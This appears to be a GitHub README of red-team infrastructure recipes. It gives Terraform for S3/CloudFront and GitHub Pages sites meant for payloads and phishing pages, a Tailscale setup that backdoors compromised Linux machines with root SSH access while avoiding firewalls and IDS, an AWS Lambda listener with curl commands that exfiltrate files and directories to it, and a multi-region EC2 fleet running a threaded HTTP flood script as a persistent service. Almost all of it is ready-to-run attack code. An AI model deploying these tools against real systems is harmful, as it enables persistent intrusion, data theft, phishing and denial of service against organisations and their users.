





# RED TEAM INFRASTRUCTURE


This document contains guidelines on deploying infrastructure that can be useful for red teaming campaigns.  

## Table of Contents
- [Deploy a static website via AWS S3 and CloudFront](#deploy-a-static-website-via-aws-s3-and-cloudfront)
- [Deploy a static website via GitHub Pages](#deploy-a-static-website-via-github-pages)
- [Maintain persistent access with Tailscale](#maintain-persistent-access-with-tailscale)  
- [Deploy a Lambda function for data exfiltration](#deploy-a-lambda-function-for-data-exfiltration)  
- [Deploy AWS Infrastructure for DDoS Engagements](#deploy-aws-infrastructure-for-ddos-engagements)


## Deploy a static website via AWS S3 and CloudFront  

The following Terraform configuration enables the seamless deployment of a static website to AWS S3 in a single step.   
The only prerequisites are an AWS account and an HTML landing page for the site (*index.hml* file, in the same root as the terraform manifest).  

This setup is particularly useful for red teaming campaigns, serving multiple purposes such as hosting payloads, creating phishing pages or redirects.  


The resulting website already comes with TLS termination out of the box and it's hosted on the "*.cloudfront.net*" domain:  
AWS domains are typically not blocked or filtered by corporate firewalls.  


Terraform manifest (*main.tf*):  

```hcl
provider "aws" {
  region = "eu-north-1"
}

resource "random_string" "bucket_suffix" {
  length  = 6
  special = false
  upper   = false
  lower   = true
  numeric = true
}

resource "aws_s3_bucket" "static_site" {
  bucket = "your-bucket-name-here-${random_string.bucket_suffix.result}"
}

resource "aws_s3_object" "terraform_index" {
  bucket = aws_s3_bucket.static_site.id
  key    = "index.html"
  source = "index.html"
  content_type = "text/html"
  etag = filemd5("index.html")
}

resource "aws_s3_bucket_ownership_controls" "example" {
  bucket = aws_s3_bucket.static_site.id

  rule {
    object_ownership = "BucketOwnerPreferred"
  }
}

resource "aws_s3_bucket_website_configuration" "blog" {
  bucket = aws_s3_bucket.static_site.id
  index_document {
    suffix = "index.html"
  }
}

resource "aws_s3_bucket_public_access_block" "public_access" {
  bucket = aws_s3_bucket.static_site.id

  block_public_acls       = true
  ignore_public_acls      = true
  block_public_policy     = true
  restrict_public_buckets = true
}

# S3 bucket policy for CloudFront access
resource "aws_cloudfront_origin_access_control" "cf-s3-oac" {
  name                              = "CloudFront-S3-OAC"
  description                       = "CloudFront S3 OAC"
  origin_access_control_origin_type = "s3"
  signing_behavior                  = "always"
  signing_protocol                  = "sigv4"
}

resource "aws_s3_bucket_policy" "static_site_bucket_policy" {
  bucket = aws_s3_bucket.static_site.id

  policy = jsonencode({
    Version = "2012-10-17"
    Statement = [
      {
        Effect = "Allow"
        Principal = {
          Service = "cloudfront.amazonaws.com"
        }
        Action = "s3:GetObject"
        Resource = "${aws_s3_bucket.static_site.arn}/*"
        Condition = {
          StringEquals = {
            "AWS:SourceArn" = aws_cloudfront_distribution.cf-dist.arn
          }
        }
      }
    ]
  })
}

resource "aws_cloudfront_distribution" "cf-dist" {
  enabled             = true
  default_root_object = "index.html"

  origin {
    domain_name              = aws_s3_bucket.static_site.bucket_regional_domain_name
    origin_id                = aws_s3_bucket.static_site.bucket
    origin_access_control_id = aws_cloudfront_origin_access_control.cf-s3-oac.id
  }

  default_cache_behavior {
    allowed_methods  = ["GET", "HEAD"]
    cached_methods   = ["GET", "HEAD"]
    target_origin_id = aws_s3_bucket.static_site.bucket
    forwarded_values {
      query_string = false

      cookies {
        forward = "none"
      }
    }
    viewer_protocol_policy = "redirect-to-https"
    min_ttl                = 0
    default_ttl            = 3600
    max_ttl                = 86400
  }

  price_class = "PriceClass_All"

  restrictions {
    geo_restriction {
      restriction_type = "whitelist"
      locations        = ["IT"]
    }
  }

  viewer_certificate {
    cloudfront_default_certificate = true
  }

  tags = {
    Name = "cloudfront-distribution"
  }
}

output "website_url" {
  value = "https://${aws_cloudfront_distribution.cf-dist.domain_name}"
}

```  

Launch deployment:  
```sh
terraform init && terraform plan && terraform apply
```  

Example static website:  
  

## Deploy a static website via GitHub Pages  

Please note that you can achieve the same result by leveraging other trusted providers, like Github.  

You can deploy a static website on-deman via Github Pages with the following terraform file:  
```hcl
provider "github" {
  token = "<your-github-token-here>" # do not hardcode secrets, manage this via a tfvars file
}

variable "repo_owner" {
  description = "GitHub username or organization name for the repository owner."
  type        = string
}

resource "random_string" "repo_suffix" {
  length  = 6
  special = false
  upper   = false
  lower   = true
  numeric = true
}

resource "github_repository" "static_site_repo" {
  name        = "static-site-${random_string.repo_suffix.result}" # change website name here
  description = "A static website deployed on GitHub Pages"

  visibility = "public"
  auto_init   = true

  pages {
    source {
      branch = "main"
    }
  }
}

resource "github_repository_file" "index_html" {
  repository = github_repository.static_site_repo.name
  file       = "index.html"
  content    = file("index.html")
  branch     = "main"
}

output "github_pages_url" {
  value = "https://${var.repo_owner}.github.io/${github_repository.static_site_repo.name}/"
}

output "notice" {
  value = "The website might take up to a minute to become reachable at the above URL."
}

```  

## Maintain persistent access with Tailscale  

The following is a proof of concept of how to maintain persistent access on a compromised machine (Linux) by leveraging [*Tailscale*](https://github.com/tailscale/tailscale).  


> [!NOTE]  
> The same mechanism can also be used to enable external access to a backdoor device (e.g., a Raspberry Pi) installed within the client's internal network.  

 
> [!WARNING]  
> You will need root privileges on the target machine.  


Tailscale, a mesh VPN built on [*WireGuard*](https://github.com/WireGuard), facilitates secure, encrypted communication between devices by creating a virtual private network (VPN) across the public internet.  
In a red teaming engagement, Tailscale can be installed on a compromised machine within the customer network to maintain persistent access:  
the compromised device becomes part of the attacker's Tailnet, allowing remote connectivity without exposing traffic  
to the customer's firewall or intrusion detection systems, as it leverages point-to-point encryption.  
Tailscale's NAT traversal ensures seamless connections even across complex network topologies, enhancing stealth and persistence in post-exploitation phases.  
Due to its nature, the techniques, and protocols it employs, Tailscale is not trivial to block.  
Therefore, it is likely that it will not be restricted by the company's network and [*should work out-of-the-box in most cases*](https://tailscale.com/kb/1082/firewall-ports).  

First of all it is recommended to create a new, disposable Google (or Github) Account for every red teaming campaign.  
Once you have a google account associated to the campaign you can use that in order to [*create a new Tailscale account*](https://login.tailscale.com/start).    

Skip the introduction and go straight to the [*settings/oauth*](https://login.tailscale.com/admin/settings/oauth) section in order to create a new oauth client with full access:  

  

Save the generated client ID and Secret, you will need them in order to enable access from the compromised machine to your tailnet.  
Now go to the [*Access Controls*](https://login.tailscale.com/admin/acls/file) Tab of the Tailscale Admin panel, delete the current ACL configuration and paste the following:  

```json
 
{
  "acls": [
    {
      "action": "accept",
      "dst": [
        "*:*"
      ],
      "src": [
        "*"
      ]
    },
    {
      "action": "accept",
      "dst": [
        "tag:backdoor:*"
      ],
      "src": [
        "autogroup:admin"
      ]
    }
  ],
  "ssh": [
    {
      "action": "accept",
      "dst": [
        "tag:backdoor"
      ],
      "src": [
        "autogroup:admin"
      ],
      "users": [
        "autogroup:nonroot",
        "root"
      ]
    }
  ],
  "tagOwners": {
    "tag:backdoor": [
      "autogroup:admin"
    ]
  }
}
```  
If you want, you can also automate this configuration via the following terraform manifest:
```hcl
terraform {
  required_providers {
    tailscale = {
      source  = "tailscale/tailscale"
      version = "0.16.2"
    }
  }
}

provider "tailscale" {
  oauth_client_id = var.oauth_client_id
  oauth_client_secret = var.oauth_client_secret
}

resource "tailscale_acl" "as_json" {
  acl = jsonencode({
    tagOwners = {
      "tag:backdoor" = ["autogroup:admin"]
    },
    
    acls = [
      {
        action = "accept",
        src    = ["*"],
        dst    = ["*:*"]
      },
      {
        action = "accept",
        src    = ["autogroup:admin"],
        dst    = ["tag:backdoor:*"]
      }
    ],
    
    ssh = [
      {
        action = "accept",
        src    = ["autogroup:admin"],
        dst    = ["tag:backdoor"],
        users  = ["autogroup:nonroot", "root"]
      }
    ]
  })
}
```  


At this point you are able to connect the compromised machine to your tailnet.  
In order to do that, you will need the following bash script:   
```sh
#!/bin/bash

# Check if an argument (auth key) is provided
if [ -z "$1" ]; then
  echo "Usage: $0 <oauth-key>"
  exit 1
fi

OAUTH_KEY=$1

# Install Tailscale
sudo curl -fsSL https://tailscale.com/install.sh | sh

# Start Tailscale with the provided auth key and enable SSH
sudo tailscale up --auth-key=$OAUTH_KEY --advertise-tags=tag:backdoor --ssh

# Show Tailscale status
sudo tailscale status
```  


Launch the script with the following command:  

```console
sh tailscale.sh <YOUR-TAILSCALE-OAUTH-KEY-HERE>
```  

If everything went good, you should see an output similar to the following:  
```console
...
...
Installation complete! Log in to start using Tailscale by running:

sudo tailscale up
100.118.41.91   target-machine-name-here          xivivixi936@ linux   -
```  

At this point, you can see the node in the admin console and even connect to it via ssh, directly from your browser:  
  
  

You can also connect to the compromised system from whatever machine that is running Tailscale and it is authenticated to your tailnet.  
In the screenshot below, you can see a windows machine in your own private network that seamlessly connect to the  
compromised machine inside the customer private network (you can use IP address or Tailscale DNS name resolution):  

  


  

## Deploy a Lambda function for data exfiltration  

The following Terraform configuration enables the seamless, on-demand deployment of a disposable, public serverless listener that can be leveraged for data exfiltration during red teaming campaigns.    
The exfiltrated files are then stored on an S3 bucket: you can upload any single file (e.g., text, binary, images, etc.) or full directories (the directory tree will be preserved).  


main.tf:  
```hcl
provider "aws" {
  region = "eu-north-1"
}

resource "aws_iam_role" "lambda_role" {
  name = "lambda_s3_execution_role"
  assume_role_policy = jsonencode({
    Version = "2012-10-17",
    Statement = [
      {
        Action = "sts:AssumeRole",
        Effect = "Allow",
        Principal = {
          Service = "lambda.amazonaws.com"
        }
      }
    ]
  })
}

resource "aws_iam_policy" "lambda_policy" {
  name = "lambda_s3_access_policy"
  policy = jsonencode({
    Version = "2012-10-17",
    Statement = [
      {
        Effect = "Allow",
        Action = "s3:PutObject",
        Resource = "arn:aws:s3:::${aws_s3_bucket.exfil_bucket.bucket}/*"
      },
      {
        Effect = "Allow",
        Action = "logs:*",
        Resource = "arn:aws:logs:*:*:*"
      }
    ]
  })
}

resource "aws_iam_role_policy_attachment" "lambda_policy_attach" {
  role       = aws_iam_role.lambda_role.name
  policy_arn = aws_iam_policy.lambda_policy.arn
}

resource "aws_s3_bucket" "exfil_bucket" {
  bucket = "data-exfiltration-bucket-${random_string.suffix.result}"
  
  force_destroy = true

  tags = {
    Name = "DataExfilBucket"
  }
}

resource "random_string" "suffix" {
  length  = 6
  special = false
  upper   = false
  lower   = true
  numeric = true
}

data "archive_file" "lambda_zip" {
  type        = "zip"
  source_dir  = "${path.module}/lambda_function"
  output_path = "${path.module}/lambda_function_payload.zip"
}

resource "aws_lambda_function" "exfil_lambda" {
  function_name = "DataExfiltrationFunction"
  handler       = "lambda_function.lambda_handler"
  role          = aws_iam_role.lambda_role.arn
  runtime       = "python3.9"

  filename = data.archive_file.lambda_zip.output_path

  environment {
    variables = {
      BUCKET_NAME = aws_s3_bucket.exfil_bucket.bucket
    }
  }

  tags = {
    Name = "DataExfiltrationLambda"
  }
}

resource "aws_lambda_function_url" "lambda_url" {
  function_name       = aws_lambda_function.exfil_lambda.function_name
  authorization_type  = "NONE"
}

resource "aws_lambda_permission" "public_lambda_url_permission" {
  statement_id  = "AllowPublicAccess"
  action        = "lambda:InvokeFunctionUrl"
  function_name = aws_lambda_function.exfil_lambda.function_name
  principal     = "*"
  function_url_auth_type = "NONE"
}

output "lambda_function_url" {
  value = aws_lambda_function_url.lambda_url.function_url
}
```  

Lambda function code (python):
```python
import boto3
import os
import time
import zipfile
import io
import base64

s3 = boto3.client('s3')
bucket_name = os.environ['BUCKET_NAME']

def lambda_handler(event, context):
    try:
        # If the body is base64 encoded, decode it
        if event.get("isBase64Encoded", False):
            file_content = base64.b64decode(event['body'])
        else:
            file_content = event['body'].encode('utf-8')

        # Get the filename from headers (or set a default)
        filename = event['headers'].get('filename', f"exfiltrated-file-{time.strftime('%Y-%m-%d-%H-%M-%S', time.gmtime())}")

        # Check if the file is a zip (assume directory if it is a zip file)
        if filename.endswith(".zip"):
            # Treat it as a compressed directory
            handle_zip(file_content, filename)
        else:
            # It's a single file, upload directly
            upload_file_to_s3(file_content, filename)

        return {
            'statusCode': 200,
            'body': f"File {filename} stored successfully"
        }

    except Exception as e:
        return {
            'statusCode': 500,
            'body': f"Error: {str(e)}"
        }

def upload_file_to_s3(file_content, filename):
    """Helper function to upload a file to S3"""
    s3.put_object(Bucket=bucket_name, Key=filename, Body=file_content)

def handle_zip(file_content, zip_filename):
    """Helper function to handle a zip file by extracting and uploading its contents"""
    with io.BytesIO(file_content) as zip_buffer:
        with zipfile.ZipFile(zip_buffer, 'r') as zip_ref:
            for file_info in zip_ref.infolist():
                # Skip directories, only process files
                if not file_info.is_dir():
                    # Extract the file from the zip
                    with zip_ref.open(file_info) as extracted_file:
                        file_data = extracted_file.read()
                        # Upload each file to S3 with its full path
                        upload_file_to_s3(file_data, file_info.filename)

```  

Launch deployment:  
```sh
terraform init && terraform plan && terraform apply
```  
Once the deployment is complete, terraform will output the public lambda url, for example:  
```sh
lambda_function_url = "https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws/"
```  
Now you can proceede to exfiltrate files and directories.
Example for single file:  
```sh
curl -X POST https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws -H "filename: test_single_file.txt" --data-binary @test_single_file.txt
```  

Example for a directory:
```sh
zip -r test_folder.zip test_folder \
&& curl -X POST https://aue3zpxtqtiwb7uvr52crjo2ru0xcrme.lambda-url.eu-north-1.on.aws -H "filename: test_folder.zip" --data-binary @test_folder.zip
```  

You can later retrieve all the exfiltrated files from the S3 bucket:  
  


## Deploy AWS Infrastructure for DDoS Engagements


Although quite rare, clients occasionally request distributed denial-of-service (DDoS) testing activities.  
Today, with the hardware resources and bandwidth available to most services, it's not easy to inflict damage through a DDoS attack, so a substantial level of firepower is essential.   

Below, a proof of concept using a Terraform manifest to provision a geographically distributed fleet of servers on AWS, specifically designed for launching DDoS campaigns.  

> [!CAUTION]  
> First, ensure the provider's current policies permit such activities, and monitor any potential costs closely.  

here is the `main.tf` manifest:  
```hcl
terraform {
  required_version = "= 1.9.8"

  # Infra state bucket (created manually on AWS)
  backend "s3" {} # specify the backend bucket

  required_providers {
    aws = {
      source  = "hashicorp/aws"
      version = "= 5.68.0"
    }
  }
}


# AWS provider for the default region (eu-north-1)
provider "aws" {
  alias  = "eu-north-1"
  region = "eu-north-1"
}

# AWS provider for another region (eu-west-1)
provider "aws" {
  alias  = "eu-west-1"
  region = "eu-west-1"
}

# AWS provider for another region (ap-south-1)
provider "aws" {
  alias  = "ap-south-1"
  region = "ap-south-1"
}

# Create the key pair from the public key
resource "aws_key_pair" "redteam_key" {
  key_name   = "aws-ddos-redteam-infra"
  public_key = file("~/.ssh/aws-ddos-redteam-infra.pub")
}

# Security group for eu-north-1
resource "aws_security_group" "mhddos_sg_eu_north" {
  provider    = aws.eu-north-1
  name        = "mhddos_sg_eu_north"
  description = "Security group for MHDDoS instances in eu-north-1"

  ingress {
    from_port   = 22
    to_port     = 22
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  egress {
    from_port   = 0
    to_port     = 0
    protocol    = "-1"
    cidr_blocks = ["0.0.0.0/0"]
  }
}

# Security group for eu-west-1
resource "aws_security_group" "mhddos_sg_eu_west" {
  provider    = aws.eu-west-1
  name        = "mhddos_sg_eu_west"
  description = "Security group for MHDDoS instances in eu-west-1"

  ingress {
    from_port   = 22
    to_port     = 22
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  egress {
    from_port   = 0
    to_port     = 0
    protocol    = "-1"
    cidr_blocks = ["0.0.0.0/0"]
  }
}

# Security group for ap-south-1
resource "aws_security_group" "mhddos_sg_ap_south" {
  provider    = aws.ap-south-1
  name        = "mhddos_sg_ap_south"
  description = "Security group for MHDDoS instances in ap-south-1"

  ingress {
    from_port   = 22
    to_port     = 22
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]
  }

  egress {
    from_port   = 0
    to_port     = 0
    protocol    = "-1"
    cidr_blocks = ["0.0.0.0/0"]
  }
}


# Deploy EC2 instance in eu-north-1
resource "aws_instance" "mhddos_eu_north" {
  count         = 1
  provider      = aws.eu-north-1
  ami           = "ami-08eb150f611ca277f"  # Ubuntu 22.04 LTS AMI
  instance_type = "t3.micro"
  key_name      = aws_key_pair.redteam_key.key_name
  vpc_security_group_ids = [aws_security_group.mhddos_sg_eu_north.id]

  # Copy the Python script
  provisioner "file" {
    source      = "./ddos_script.py"
    destination = "/home/ubuntu/ddos_script.py"

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  # Copy the service file to a temporary location
  provisioner "file" {
    source      = "./ddos_script.service"  # Local service file
    destination = "/home/ubuntu/ddos_script.service"  # Temporary location in the home directory

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  # Move the service file to /etc/systemd/system/ and start the service
  provisioner "remote-exec" {
    inline = [
      # Move the service file to the correct location with sudo
      "sudo mv /home/ubuntu/ddos_script.service /etc/systemd/system/ddos_script.service",

      # Reload systemd to recognize the new service
      "sudo systemctl daemon-reload",

      # Start the service (this will run the script in the background)
      "sudo systemctl start ddos_script.service",

      # Enable the service to start on boot
      "sudo systemctl enable ddos_script.service"
    ]

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  tags = {
    Name = "MHDDoS-EU-North"
  }
}

# Repeat for eu-west-1 and ap-south-1

resource "aws_instance" "mhddos_eu_west" {
  count         = 1
  provider      = aws.eu-west-1
  ami           = "ami-0d64bb532e0502c46"
  instance_type = "t2.micro"
  key_name      = aws_key_pair.redteam_key.key_name
  vpc_security_group_ids = [aws_security_group.mhddos_sg_eu_west.id]

  provisioner "file" {
    source      = "./ddos_script.py"
    destination = "/home/ubuntu/ddos_script.py"

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  provisioner "file" {
    source      = "./ddos_script.service"
    destination = "/home/ubuntu/ddos_script.service"

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  provisioner "remote-exec" {
    inline = [
      "sudo mv /home/ubuntu/ddos_script.service /etc/systemd/system/ddos_script.service",
      "sudo systemctl daemon-reload",
      "sudo systemctl start ddos_script.service",
      "sudo systemctl enable ddos_script.service"
    ]

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  tags = {
    Name = "MHDDoS-EU-West"
  }
}

resource "aws_instance" "mhddos_ap_south" {
  count         = 1
  provider      = aws.ap-south-1
  ami           = "ami-0dee22c13ea7a9a67"
  instance_type = "t2.micro"
  key_name      = aws_key_pair.redteam_key.key_name
  vpc_security_group_ids = [aws_security_group.mhddos_sg_ap_south.id]

  provisioner "file" {
    source      = "./ddos_script.py"
    destination = "/home/ubuntu/ddos_script.py"

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  provisioner "file" {
    source      = "./ddos_script.service"
    destination = "/home/ubuntu/ddos_script.service"

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  provisioner "remote-exec" {
    inline = [
      "sudo mv /home/ubuntu/ddos_script.service /etc/systemd/system/ddos_script.service",
      "sudo systemctl daemon-reload",
      "sudo systemctl start ddos_script.service",
      "sudo systemctl enable ddos_script.service"
    ]

    connection {
      type        = "ssh"
      user        = "ubuntu"
      private_key = file("~/.ssh/aws-ddos-redteam-infra")
      host        = self.public_ip
    }
  }

  tags = {
    Name = "MHDDoS-AP-South"
  }
}


# Output public IPs of each region
output "eu_north_instance_ips" {
  description = "The public IPs of the EU-North attacker instances"
  value       = aws_instance.mhddos_eu_north[*].public_ip
}

output "eu_west_instance_ips" {
  description = "The public IPs of the EU-West attacker instances"
  value       = aws_instance.mhddos_eu_west[*].public_ip
}

output "ap_south_instance_ips" {
  description = "The public IPs of the AP-South attacker instances"
  value       = aws_instance.mhddos_ap_south[*].public_ip
}

```  

Here is the `ddos_script.py` a "vanilla" python script to do volumetric Layer 7 (http) DoS against a specified target url (you can modify this script to use less intensive techniques like [*slow loris*](https://en.wikipedia.org/wiki/Slowloris_(cyber_attack)):  

```python
import threading
import requests
import time
from datetime import datetime

# Number of threads
THREADS = 150

# Target URL
TARGET_URL = "https://example.com"

# Duration of the attack in seconds
DURATION = 10

# Counter for successful requests
request_count = 0

# Lock to safely update the counter across threads
lock = threading.Lock()

# Function to send HTTP GET requests
def send_requests():
    global request_count
    while time.time() < end_time:
        try:
            response = requests.get(TARGET_URL)
            with lock:
                request_count += 1  # Safely increment the count
        except requests.exceptions.RequestException as e:
            print(f"Error: {e}")

# Print the start time
print(f"Attack against target {TARGET_URL} started at: {datetime.now()}")

# Start time of the attack
start_time = time.time()

# End time of the attack
end_time = start_time + DURATION

# Create and start threads
threads = []
for i in range(THREADS):
    t = threading.Thread(target=send_requests)
    t.start()
    threads.append(t)

# Wait for all threads to complete
for t in threads:
    t.join()

# Print the end time and total number of requests sent
print(f"Attack ended at: {datetime.now()}")
print(f"Total number of requests sent: {request_count}")
```   

### Instructions  

Generate the required ssh keys (both public and private) for connecting to the cloud VMs and put them in `~/.ssh/`:  

```console
ssh-keygen -t rsa -b 4096 -C "aws-ddos-redteam-infra" -f ~/.ssh/aws-ddos-redteam-infra
```  


Ensure the correct permissions are set for the keys:  
```sh
chmod 600 ~/.ssh/aws-ddos-redteam-infra
chmod 644 ~/.ssh/aws-ddos-redteam-infra.pub
```  


Now modify the parameters in `ddos_script.py` and also the number and types of EC2 instances to create in `main.tf`.   


Now procede to initialize terraform, produce the provisioning plan and launch the deployment:  
```sh
terraform init && terraform plan && terraform apply
```  


> NOTE  
> If you get keys not present error during the provisioning, it is possible that you might have to upload the keys to different regions manually:   
> `aws ec2 import-key-pair --region <region-here> --key-name aws-ddos-redteam-infra --public-key-material file://~/.ssh/aws-ddos-redteam-infra.pub`    


Once the provisioning is completed, terraform will output something similar to the following:  
```console
Apply complete! Resources: 10 added, 0 changed, 0 destroyed.

Outputs:

ap_south_instance_ips = [
  "65.0.6.216",
  "13.233.22.168",
]
eu_north_instance_ips = [
  "51.21.150.77",
  "13.49.72.11",
]
eu_west_instance_ips = [
  "3.254.115.92",
  "34.244.127.104",
]
```  

At this point you can connect to the machines with the following command:  
```sh
ssh -i ~/.ssh/aws-ddos-redteam-infra ubuntu@<instance-public-ip>
```  

Once on the machine, verify the status of the DDoS service with the following command:  
```sh
sudo systemctl status ddos_script.service
```  

In the output of the previous command, you will also find the ddos service logs, for example:  
```console
ddos_script.service - DDoS attack script
     Loaded: loaded (/etc/systemd/system/ddos_script.service; enabled; preset: enabled)
     Active: inactive (dead) since Wed 2024-10-23 15:55:21 UTC; 53s ago
   Duration: 13.252s
